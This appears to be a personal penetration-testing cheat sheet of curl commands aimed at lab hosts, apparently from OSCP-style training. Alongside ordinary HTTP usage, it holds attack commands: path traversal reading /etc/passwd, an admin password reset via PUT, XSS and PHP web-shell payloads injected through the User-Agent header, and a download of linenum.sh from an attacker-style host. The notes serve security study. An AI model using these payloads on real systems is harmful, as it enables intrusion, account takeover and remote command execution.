 ### xmllint
```bash
curl -s http://10.129.42.190/nibbleblog/content/private/config.xml | xmllint --format -
```

### curl
![image](https://github.com/nuricheun/OSCP/assets/14031269/83b00a36-8468-4e38-a5c9-3cf2eb68cbbd)
```bash
# Finger print
curl -IL https://www.inlanefreight.com

# Send a HEAD request and only display the response headers
curl -I https://www.inlanefreight.com

# Set User-Agent
curl https://www.inlanefreight.com -A 'Mozilla/5.0'

# Provide user credentials
curl -u admin:admin http://<SERVER_IP>:<PORT>/
curl http://admin:admin@<SERVER_IP>:<PORT>/

# With xmllint
curl -s http://10.129.42.190/nibbleblog/content/private/config.xml | xmllint --format -

# Silent the status with the -s flag
curl -s -O inlanefreight.com/index.html

# Download files
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

# -v : Show the full details of the HTTP request and response
We can find the stack information as well(ex. saltstack)
curl -v target:port

# directory traversal
curl --path-as-is http://192.168.x.x/../../../../../../etc/passwd
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd

# GET Request
## when you get 405 method not allowed, try something else other than GET such as POST or PUT etc.
curl -i http://192.168.50.16:5002/users/v1/admin/password

# POST Request
curl -X POST --data 'Archive=git' http://192.168.50.189:8000/archive
curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login

# PUT Request
curl -X 'PUT' 'http://192.168.50.16:5002/users/v1/admin/password' -H 'Content-Type: application/json' -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' -d '{"password": "pwned"}'

# User-agent
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(...))</script>" --proxy 127.0.0.1:8080
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"

# json format
| jq .
```
